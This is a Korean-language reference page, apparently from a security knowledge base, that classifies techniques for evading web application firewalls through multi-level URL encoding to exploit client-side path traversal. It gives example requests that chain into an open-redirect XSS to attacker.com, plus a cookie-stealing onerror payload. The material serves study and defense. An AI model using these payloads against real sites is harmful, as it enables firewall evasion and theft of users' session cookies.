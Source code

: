

## 공격 기법

### Reconnaissance

| 공격 기법               | 예시                                                                                                      | 설명                                                                                                                                                     | 출처 |
|-------------------------|-----------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Decoding Level Analysis | `GET /viewpost/%2e%2e%2f` (1회 인코딩)<br>`GET /viewpost/%252e%252e%252f` (2회 인코딩)                    | 다양한 수준으로 인코딩된 경로 조작 페이로드를 전송하여, WAF와 애플리케이션이 각각 몇 번의 디코딩을 수행하는지 응답의 차이를 통해 파악한다.                | [1]  |

### Obfuscation

| 공격 기법                   | 예시                                       | 설명                                                                                                                                                   | 출처 |
|-----------------------------|--------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Directory Depth Obfuscation | `GET /viewpost/a/b/../../redirect...`      | WAF가 경로의 깊이(depth)를 검사하여 `../` 같은 음수 깊이를 차단할 때, `a/b/../../`와 같이 정상 디렉터리를 앞에 추가하여 WAF가 계산하는 최종 깊이를 0 이상으로 만들어 우회한다. | [1]  |

### Bypass

| 공격 기법                                                     | 예시                                              | 설명                                                                                                                                                                                     | 출처 |
|---------------------------------------------------------------|---------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Multi-level Encoding Bypass &lt;br&gt; (WAF level < App level)           | `GET /viewpost/..%252f..%252f...`                 | WAF의 디코딩 횟수보다 더 많이 페이로드를 인코딩한다. WAF는 디코딩 후에도 `..`를 인식하지 못해 통과시키지만, 더 많이 디코딩하는 애플리케이션은 이를 `../`로 해석하여 공격이 성공한다. | [1]  |
| Depth Obfuscation & Encoding Bypass &lt;br&gt; (WAF level > App level)   | `GET /viewpost/a%252fa%252f..%252f..%252f...`     | WAF가 더 많이 디코딩하는 점을 역이용한다. WAF는 `a/a/../..`로 해석하여 깊이가 정상이므로 통과시키지만, 적게 디코딩하는 애플리케이션은 `a%2fa/../../`를 `../`로 해석하여 공격이 성공한다.        | [1]  |
| Browser-based Path Normalization Bypass &lt;br&gt; (WAF level == App level) | `GET /viewpost/%252e%252e%2f%252e%252e%2f...`   | WAF와 앱이 모두 `%2e%2e/`로 디코딩하게 만든다. WAF는 이를 안전하다고 판단하지만, 브라우저의 fetch는 `%2e%2e/`를 `../`와 동일하게 처리(경로 정규화)하여 우회가 발생한다.                  | [1]  |

### Validation

| 공격 기법                     | 예시                                                                                   | 설명                                                                                                                                                                                                              | 출처 |
|-------------------------------|----------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Redirect Payload Verification | `fetch("/api/posts/get_content/../../../redirect?u=https://attacker.com")`             | 공격자가 삽입한 페이로드가 브라우저와 애플리케이션의 디코딩을 거쳐, 최종적으로 의도한 경로(`redirect?u=...`)로 fetch 요청을 보내는지 개발자 도구 등을 통해 확인한다. 또한 자동 리디렉션 처리 여부를 확인해 후속 공격 가능성도 검증한다. | [1]  |

### Exploitation

| 공격 기법                         | 예시                                                                                             | 설명                                                                                                                                                                            | 출처 |
|-----------------------------------|--------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Fetch-based XSS via Open Redirect | `GET /viewpost/%252e%252e%2f%252e%252e%2f%252e%252e%2fredirect%3fu=https:%2f%2fattacker.com` | 경로 조작으로 fetch가 공격자의 서버로 리디렉션되도록 유도한다. 공격자 서버가 반환한 악성 HTML이 페이지에 렌더링되면서 Cross‑Site Scripting(XSS)이 실행된다.                      | [1]  |

### Exfiltration

| 공격 기법                      | 예시                                                                                      | 설명                                                                                                                                                                   | 출처 |
|--------------------------------|-------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Cookie Theft via onerror Event | `<video><source onerror=location='//attacker.com/'+document.cookie>`                     | Exploitation을 통해 주입된 스크립트는 onerror 이벤트 핸들러를 사용하여, 피해자의 쿠키(`document.cookie`)를 location 객체를 통해 공격자의 서버로 전송시킨다.            | [A]  |

---

## 분류에 해당하는 문서
- [1] [Bypassing WAFs to Exploit CSPT Using Encoding Levels](https://matanber.com/blog/cspt-levels)

## 기타 참고 문헌
- [A] [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

